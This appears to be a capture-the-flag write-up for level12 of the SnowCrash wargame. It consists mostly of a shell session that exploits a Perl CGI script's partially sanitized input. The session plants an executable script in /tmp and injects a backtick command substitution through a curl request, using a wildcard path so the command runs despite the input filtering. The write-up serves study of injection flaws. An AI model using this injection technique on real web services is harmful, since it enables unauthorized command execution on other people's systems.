 # level12

Perl CGI script with partially sanitized inputs
```bash
level12@SnowCrash:~ $ printf '#!/bin/bash\n\
> getflag > /tmp/glag\n' > /tmp/GONK; \
> chmod +x /tmp/GONK; \
> curl localhost:4646/level12.pl?x=\`/*/gonk\`
#OUTPUT
level12@SnowCrash:~ $ su flag12
Password:
flag12@SnowCrash:~ $ getflag
level12@SnowCrash:~ $ su level13
Password
level13@SnowCrash:~ $ 
```
